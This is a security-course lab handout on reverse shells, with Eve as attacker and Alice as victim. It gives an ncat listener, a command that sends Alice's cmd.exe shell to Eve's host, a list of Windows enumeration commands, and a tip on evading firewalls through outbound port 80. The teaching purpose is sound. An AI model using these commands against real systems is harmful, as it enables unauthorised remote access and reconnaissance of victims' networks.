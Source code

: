 ```yaml
---
layout: editorial
---
```


# Reverse Shell

## Objective

Learn how attackers can bypass firewalls when there is no direct communication from the attacker’s computer to the victim’s computer.

## Discussion

In this scenario, the attacker has control over their computer so that is why the attacker disables their firewall. It is to simulate the attacker can decide which port to use and open on their system.

This attack is how phishing campaigns work that trick someone into opening a document and the attacker obtains a shell on their computer. The victim is behind a corporate firewall so Even CANNOT connect directly to Alice. Instead, Alice is tricked into opening a document that connects back to Eve’s computer.

## Scenario

Alice is behind a firewall so Eve can't connect directly to her computer.

## Preparation

1. **Alice, change your Windows 10 Network Adapater and set it back to your **_**LAN**_** segment.**
2. **Alice enable your Windows 10 firewall.**
3. **Eve, keep your Windows 10 Network Adapater on the NETSEC-WAN segment.**

**NOTE: When you switch roles, don’t forget to change your network adapters accordingly.**

## Starting the Lab

Eve will start her listener:

Eve (run the command): **ncat -l 8080 -vv**

Alice connects to Eve and gives her computer’s command prompt to Eve. The \*\*-e \*\*means execute. In this case, when Alice connects to Eve, Alice will execute the command **cmd.exe** and push the (command prompt aka shell) over to Eve.

Alice: **ncat -vv X.X.X.X 8080 -e cmd.exe**

Eve should see something like this on her screen:

**Microsoft Windows \[Version 6.1.7601]**

**Copyright (c) 2009 Microsoft Corporation. All rights reserved.**

**c:\Program Files\Nmap>**

You can check by typing:

**ipconfig**

and it should print the IP address of Alice’s computer.

Type some other commands used to enumerate a remote computer. NOTE: Don’t type the # and test. Type the commands in bold.

## Get the list of local users

**net users**

## Enumerate other hosts

**net view**

## Enumerate users on the domain

**net users /DOMAIN**

## List running processes

**tasklist**

## List of services

**tasklist /svc**

## hosts communicated with allows enumeration of the internal systems without special tools like nmap

**arp -a**

## Get installed software versions

## WMIC commands may take a few seconds to show output

**wmic product get name, version, installlocation**

## Running process details

**wmic process**

## OS Details

**wmic os**

## User account details

**wmic useraccount**

## Detailed host information

**systeminfo**

All the commands you are running is part of the process of **enumeration**. If an attacker can run these types of arbitrary commands, they are beginning the process of scoping out your organization.

**BE SURE YOU UNDERSTAND HOW THIS WORKS.**

This evades most firewalls because most firewalls are configured to allow any outbound traffic. Since Eve controls the computer on her end, she can allow Alice to connect to any port on her computer. Even if Alice is behind a restrictive firewall that allows port 80 outbound, Eve can allow her to connect to her computer on Port 80 using the same commands above, except 8080 will become 80.

This is similar to how Malware works. It executes a command and connects back to the attacker's computer system. Just as in the command above, the malware can push the victim's shell back to the attacker.
